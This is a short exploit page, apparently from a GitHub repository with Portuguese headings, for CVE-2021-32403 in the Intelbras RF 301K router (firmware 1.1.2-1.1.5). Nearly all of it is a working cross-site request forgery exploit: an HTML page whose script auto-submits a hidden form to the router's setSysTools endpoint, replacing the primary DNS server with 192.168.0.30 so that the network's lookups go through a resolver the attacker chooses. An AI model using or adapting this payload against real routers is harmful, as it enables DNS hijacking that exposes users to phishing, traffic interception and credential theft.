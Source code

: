<languages />

Versão afetada
--------------

Version: Firmware 1.1.2-1.1.5

EXP
---

    # Exploit Title: Intelbras Router RF 301K - 'DNS Hijacking' Cross-Site Request Forgery (CSRF)
    # Date: 01/05/2021
    # Exploit Author: Rodolfo Mariano
    # Version: Firmware 1.1.2-1.1.5
    # CVE: 2021-32403

    # Exploit Code:
    <html>
        <form action="http://10.0.0.1/goform/setSysTools" method="POST">
            <input name="module3" value="lanCfg" type="hidden">
            <input name="lanIP" value="10.0.0.1" type="hidden">
            <input name="lanMask" value="255.255.255.0" type="hidden">
            <input name="dhcpEn" value="true" type="hidden">
            <input name="lanDhcpStartIP" value="10.0.0.100" type="hidden">
            <input name="lanDhcpEndIP" value="10.0.0.200" type="hidden">
            <input name="lanDns1" value="192.168.0.30" type="hidden">
            <input name="lanDns2" value="" type="hidden">
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </html>